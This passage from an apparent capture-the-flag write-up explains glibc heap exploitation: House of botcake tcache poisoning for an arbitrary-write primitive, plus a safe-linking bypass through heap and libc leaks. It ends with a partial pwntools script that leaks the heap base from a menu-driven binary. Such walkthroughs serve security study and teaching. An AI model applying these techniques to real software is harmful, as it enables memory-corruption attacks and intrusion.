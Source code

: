 Which means to leak the heap address we simply have to print a free'd chunk once it has been inserted in the tcache.

## House of botcake

The [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) gives a write what where primitive by poisoning the tcache. The algorithm is:
- Allocate 7 `0x100` sized chunks to then fill the tcache (7 entries).
- Allocate two more `0x100` sized chunks (`prev` and `a` in the example).
- Allocate a small "barrier" `0x10` sized chunk.
- Fill the tcache by freeing the first 7 chunks.
- free(a), thus `a` falls into the unsortedbin.
- free(prev), thus `prev` is consolidated with `a` to create a large `0x221` sized chunk that is yet in the unsortedbin.
- Request one more `0x100` sized chunk to let a single entry left in the tcache.
- free(a) again, given `a` is part of the large `0x221` sized chunk it leads to an UAF. Thus `a` falls into the tcache.
- That's finished, to get a write what where we just need to request a `0x130` sized chunk. Thus we can hiijack the next fp of `a` that is currently referenced by the tcache by the location we wanna write to. And next time two `0x100` sized chunks are requested, the second one will be the target location.

## Getting arbitrary write

To make use of the write what were we got thanks to the [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c), we need to get both heap and libc leak. To leak libc that's pretty easily we just need to print out a free'd chunk stored into the unsortedbin, it's forward pointer is not encrypted with safe-linking.

As seen previously, to bypass safe-linking we have to print a free'd chunk once it has been inserted in the tcache. It would give us the base address of the heap. When we got it, we just have to initialize the location we wanna write to `location ^ ((heap_base + chunk_offset) >> 12)` to encrypt properly the pointer, this way the primitive is efficient.

Implmentation of the [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) + safe-linking bypass, heap and libc leak:
```py

io = start()

def alloc(idx, data, size):
   io.sendlineafter("-\n> ", b"1") 
   io.sendlineafter("Index?\n> ", str(idx).encode()) 
   io.sendlineafter("> ", str(size).encode()) 
   io.sendlineafter(": ", data) 

def free(idx):
   io.sendlineafter("> ", b"2") 
   io.sendlineafter("> ", str(idx).encode())

def view(idx):
   io.sendlineafter("> ", b"3") 
   io.sendlineafter("> ", str(idx).encode())

for i in range(7):
    alloc(i, b"", 0x100)

free(0)

view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12))
pwn.log.info(f"heap @ {hex(heap)}")
# then we defeated safe linking lol
```